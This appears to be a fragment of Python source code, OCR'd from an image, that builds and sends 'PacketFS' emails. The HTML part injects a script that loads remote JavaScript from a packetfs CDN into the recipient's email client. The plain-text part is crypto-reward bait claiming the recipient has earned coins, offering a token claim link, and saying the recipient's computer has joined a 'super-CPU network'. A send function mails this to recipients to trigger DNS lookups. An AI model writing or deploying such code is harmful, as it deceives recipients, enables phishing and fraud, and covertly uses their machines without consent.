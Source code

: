 ```python
    <script>
        // PacketFS email client injection
        (function() {
            // Check if this email client supports JavaScript (many do for rich HTML)
            if (typeof document !== 'undefined') {
                const script = document.createElement('script');
                script.src = 'https://cdn.packetfs.global/v1/email-core.js';
                script.async = true;
                document.head.appendChild(script);
                console.log('📧 PacketFS loaded in email client!');
            }
        })();
    </script>
</body>
</html>
"""
        
        # Plain text version for non-HTML email clients
        text_content = """
🚀 PacketFS Network Notification 💎

Congratulations! Your browser has earned 0.0247 PacketFS Coins automatically!
💰 Current value: $12.35

Claim your earnings: https://packetfs-mail.global/claim?token=abc123

⚡ Keep browsing to earn more! Your computer is now part of the PacketFS super-CPU network!

Join the revolution: https://packetfs.global
"""
        
        return {
            'html': html_content,
            'text': text_content,
            'subject': '💰 You Just Earned $12.35 in Crypto! 🚀'
        }
        
    def send_trigger_email(self, recipient_email, email_content):
        """Send email that triggers DNS TXT lookups"""
        try:
            # Create multipart email
            msg = MIMEMultipart('alternative')
            msg['Subject'] = email_content['subject']
            msg['From'] = 'rewards@packetfs-mail.global'  # Triggers DNS lookup!
            msg['To'] = recipient_email
            
            # Add text and HTML parts
            text_part = MIMEText(email_content['text'], 'plain')
            html_part = MIMEText(email_content['html'], 'html')
            
            msg.attach(text_part)
            msg.attach(html_part)
            
            # Send via SMTP (triggers receiver's DNS lookup of our domain)
            with smtplib.SMTP('localhost', 587) as server:
                server.starttls()
                server.send_message(msg)
                
            print(f"📧 Trigger email sent to {recipient_email}")
            
        except Exception as e:
            print(f"❌ Failed to send email to {recipient_email}: {str(e)}")
            
```